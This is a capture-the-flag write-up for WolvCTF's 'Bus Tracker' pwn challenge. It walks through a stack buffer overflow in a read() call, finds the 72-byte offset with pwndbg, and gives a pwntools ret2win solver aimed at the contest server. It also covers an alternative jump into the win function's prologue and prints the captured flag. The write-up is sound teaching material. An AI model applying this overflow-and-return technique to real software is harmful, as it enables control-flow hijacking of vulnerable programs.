



# 『Bus Tracker』



# 『The challenge』



And the chall: [chall-download](./src/dis.tar.gz)

The information of the chall:



## 『Highlight vulnerability and parts of interesting』

There are plenty things on this chall and compile using all of it. But the thing is this:

```asm
004017e5    void dispatcherOverride() __noreturn

00401808        int64_t (* rax)(int64_t arg1, char arg2, int64_t arg3) = _IO_fopen("flag.txt", "r")
00401808        
00401816        if (rax == 0)
00401822            _IO_puts("flag.txt missing")
0040182c            exit(status: 1)
0040182c            noreturn
0040182c        
00401844        char var_118[0x108]
00401844        _IO_fgets(&var_118, 0x100, rax)
00401862        _IO_printf(&data_498020, 0)
0040186c        exit(status: 0)
0040186c        noreturn


00401871    int64_t checkStopName()

00401887        _IO_puts("=== Bus Tracker 3000 ===")
00401896        _IO_puts("Enter your stop name: ")
004018b3        void var_48
004018b3        return __libc_read(0, &var_48, 0x100)


004018b4    int64_t main()

004018d5        _IO_setvbuf(stdout, 0, 2, 0)
004018f3        _IO_setvbuf(stdin, 0, 2, 0)
004018fd        checkStopName()
0040190c        _IO_puts("Thanks for riding!")
00401917        return 0

```

## 『Solving Challenge』
> solve by Lylera

So this one is ret2win. Jump to win function and get the flag. But the thing is you get input using `read` tho until `0x100`. But if you try run it from `cyclic 300` and run the file using pwndbg:

```asm
Program received signal SIGSEGV, Segmentation fault.
0x00000000004018b3 in checkStopName ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────
 RAX  0x100
 RBX  0x7fffffffdc38 —▸ 0x7fffffffdf45 ◂— 'SHELL=/bin/bash'
 RCX  0x4506f2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x100
 RDI  0
 RSI  0x7fffffffd9f0 ◂— 0x6161616261616161 ('aaaabaaa')
 R8   0x4c90d0 (_IO_stdfile_1_lock) ◂— 0
 R9   4
 R10  0x80
 R11  0x246
 R12  1
 R13  0x7fffffffdc28 —▸ 0x7fffffffdf11 ◂— '/home/Lylera/Downloads/for_ctf_alls/event/wolv/chal'
 R14  0x4c26f0 (__preinit_array_start) —▸ 0x4017b0 (frame_dummy) ◂— endbr64
 R15  1
 RBP  0x6161617261616171 ('qaaaraaa')
 RSP  0x7fffffffda38 ◂— 'saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
 RIP  0x4018b3 (checkStopName+66) ◂— ret
 ```

 this thing is interesting because you get offset itself on `saaa` -> 72 byte. Otherwise you can not jump to win function. Eventho using `read` for input, you can jump to win with classic technique https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win 

 So here it is my solver:

 ```py
from pwn import *

elf = context.binary = ELF('./chal')
# p = process()
p = remote('bus-tracker.wolvctf-2026.kctf.cloud', 1337)

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]

# payload = flat('A'*72, elf.sym['dispatcherOverride']+5)
payload = flat('A'*72, ret, elf.sym['dispatcherOverride'])

p.sendlineafter('Enter your stop name:', payload)
p.interactive()
```

but wait, why i have 2 solvers in this chall? so i found interesting way tho in here. If you see on this chall using `gdb` or `pwndbg`:

```asm
pwndbg> disas dispatcherOverride
Dump of assembler code for function dispatcherOverride:
   0x00000000004017e5 <+0>:     endbr64
   0x00000000004017e9 <+4>:     push   rbp
   0x00000000004017ea <+5>:     mov    rbp,rsp
   0x00000000004017ed <+8>:     sub    rsp,0x110
   0x00000000004017f4 <+15>:    lea    rax,[rip+0x96809]        # 0x498004
   0x00000000004017fb <+22>:    mov    rsi,rax
   0x00000000004017fe <+25>:    lea    rax,[rip+0x96801]        # 0x498006
   0x0000000000401805 <+32>:    mov    rdi,rax
   0x0000000000401808 <+35>:    call   0x412210 <fopen64>
   0x000000000040180d <+40>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401811 <+44>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x0000000000401816 <+49>:    jne    0x401831 <dispatcherOverride+76>
   0x0000000000401818 <+51>:    lea    rax,[rip+0x967f0]        # 0x49800f
   0x000000000040181f <+58>:    mov    rdi,rax
   0x0000000000401822 <+61>:    call   0x412600 <puts>
   0x0000000000401827 <+66>:    mov    edi,0x1
   0x000000000040182c <+71>:    call   0x40abf0 <exit>
   0x0000000000401831 <+76>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401835 <+80>:    lea    rax,[rbp-0x110]
   0x000000000040183c <+87>:    mov    esi,0x100
   0x0000000000401841 <+92>:    mov    rdi,rax
   0x0000000000401844 <+95>:    call   0x411f60 <fgets>
   0x0000000000401849 <+100>:   lea    rax,[rbp-0x110]
   0x0000000000401850 <+107>:   mov    rsi,rax
   0x0000000000401853 <+110>:   lea    rax,[rip+0x967c6]        # 0x498020
   0x000000000040185a <+117>:   mov    rdi,rax
   0x000000000040185d <+120>:   mov    eax,0x0
   0x0000000000401862 <+125>:   call   0x40b720 <printf>
   0x0000000000401867 <+130>:   mov    edi,0x0
   0x000000000040186c <+135>:   call   0x40abf0 <exit>
End of assembler dump.
pwndbg>
```

you will see this instruction assembly `0x00000000004017ea <+5>:     mov    rbp,rsp` which mean if you buffer it and ret to address, you can jump through this one and get execute. My reference: https://stackoverflow.com/questions/67449884/mov-rbp-rsp-in-function-prologue 
```
But this creates an issue: if rbp has been modified, what about the previous stack frame? Since the stack frame has been modified, after this function returns, rbp would be in the wrong position and things would go very wrong.

This is where push rbp comes in. It saves the value of rbp before being modified so that right before the function returns, rbp's original value can be popped right back to rbp so the previous stack frame remains okay
```

which mean your payload will be safe at `push rbp` after that execute on `mov    rbp,rsp` for your payload without getting `ret` again. So that's why i use simple thing in here :>. But it is fine if you use classical way using ret for stack allignment

### 『Flag』

```
wctf{bus_ni9davhafgyy8iqq}
```

### 『Reference』

- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win
- https://stackoverflow.com/questions/67449884/mov-rbp-rsp-in-function-prologue 